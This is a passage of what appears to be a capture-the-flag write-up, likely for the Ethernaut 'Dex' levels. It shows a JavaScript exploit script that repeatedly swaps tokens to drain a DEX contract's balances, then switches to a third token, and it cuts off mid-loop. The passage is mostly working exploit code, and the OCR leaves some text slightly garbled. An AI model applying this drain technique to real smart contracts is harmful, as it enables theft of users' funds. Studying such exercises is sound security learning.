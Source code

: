 -----
**-----
**Exploitation**ation**

```js
const contractABI = artifacts.require("Dex");

let contract ;
let TOKEN1_ADDRESS = "0x954aB18d300D8FFE76a2eFE7B36fcD6EF36825c7";
let TOKEN2_ADDRESS = "0xE651aD37ac31B03F7B49036248A29DC75D0093E6";

const TOKEN3_ADDRESS= "0xfe5A0de02e7c76f2A51e3d297e65ccE784787538"

let PLAYER='0x84e7a3679A82C2766Ff8382862ab883FF9460307'

async function getBalances(){
    const token1Balance = (await contract.balanceOf(TOKEN1_ADDRESS,contract.address)).toNumber();
    const token2Balance = (await contract.balanceOf(TOKEN2_ADDRESS,contract.address)).toNumber();
    console.log(`Current Balances for contract : A : ${token1Balance} \t B : ${token2Balance}`);
    return {token1Balance,token2Balance}
}

async function knowTokenValues({token1Balance,token2Balance}){
    return {mostExpensiveToken: token1Balance >= token2Balance ? TOKEN2_ADDRESS : TOKEN1_ADDRESS,cheapestToken:token1Balance < token2Balance ? TOKEN2_ADDRESS : TOKEN1_ADDRESS };
}

async function getSwapValues(tokensWithValues){
    let toSwap  = (await contract.balanceOf(tokensWithValues.mostExpensiveToken,PLAYER)).toNumber();
    let available = (await contract.balanceOf(tokensWithValues.mostExpensiveToken,contract.address)).toNumber();

    // making sure at the end when we get most of balance in one token type we can still get the rest of the tokens.
    if(toSwap>available)toSwap=available;

    return toSwap;
}


async function drainFunds(){
    
    let flag=true;
    await contract.approve(contract.address,10000,{from:PLAYER});
    while(flag){
        const balances= await getBalances();
        const tokenValues= await knowTokenValues(balances);
        const toSwap = await getSwapValues(tokenValues);
        await contract.swap(tokenValues.mostExpensiveToken,tokenValues.cheapestToken,toSwap,{from:PLAYER});
        console.log(`swapped ${toSwap} ${tokenValues.mostExpensiveToken} for  ${tokenValues.cheapestToken}`);
flag = balances.token1Balance*balances.token2Balance>0;
    }
    // Token2 balance  = 0. Make sure to set the token3 value to the same value as token1 at the end of this loop.

    flag = true;
     TOKEN2_ADDRESS=TOKEN1_ADDRESS;
     TOKEN1_ADDRESS=TOKEN3_ADDRESS;

while(flag){
        const balances= await getBalances();
```